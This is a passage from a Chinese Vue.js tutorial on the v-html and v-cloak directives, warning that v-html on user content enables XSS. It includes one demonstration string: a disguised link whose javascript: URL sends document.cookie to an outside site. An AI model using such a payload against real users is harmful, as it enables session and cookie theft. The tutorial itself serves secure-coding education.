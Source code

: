 ```html
```

### 1.2 v-html 指令

**v-html指令：**(使用的很少)

1.作用：向指定节点中渲染包含html结构的内容。

2.与插值语法的区别：

- v-html会替换掉节点中所有的内容，{{xx}}则不会。
- v-html可以识别html结构。

3.严重注意：v-html有安全性问题！！！！

- 在网站上动态渲染任意HTML是非常危险的，容易导致XSS攻击。
- 一定要在可信的内容上使用v-html，永不要用在用户提交的内容上！

```html
<!-- 准备好一个容器-->
<div id="root">
    <div>你好，{{name}}</div>
    <div v-html="str"></div>
    <div v-html="str2"></div>
</div>

<script type="text/javascript">
    Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示。

    new Vue({
        el:'#root',
        data:{
            name:'张三',
            str:'<h3>你好啊！</h3>',
            str2:'<a href=javascript:location.href="http://www.baidu.com?"+document.cookie>兄弟我找到你想要的资源了，快来！</a>',
        }
    })
</script>
```

![image-20220629121130193](./images/7c1c82f65d6431c7332ea00ece8fb6f3a2e8ef9e.png)

### 1.3v-cloak 指令

**v-cloak指令（没有值）：**

- 本质是一个特殊属性，`Vue`实例创建完毕并接管容器后，会删掉`v-cloak`属性。
- 使用`css`配合`v-cloak`可以解决网速慢时页面展示出{{xxx}}的问题。
